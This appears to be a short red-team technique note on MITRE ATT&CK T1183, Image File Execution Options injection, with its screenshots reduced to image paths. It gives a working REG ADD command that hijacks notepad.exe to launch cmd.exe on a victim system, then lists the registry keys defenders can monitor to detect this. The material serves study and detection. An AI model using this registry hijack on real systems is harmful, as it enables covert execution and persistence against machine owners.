




# T1183: Image File Execution Options Injection

## Execution

Modifying registry to set cmd.exe as notepad.exe debugger, so that when notepad.exe is executed, it will actually start cmd.exe:


```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```


Launching a notepad on the victim system:



Same from the cmd shell:



## Observations

Monitoring command line arguments and events modifying registry keys: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting this attack:





## References







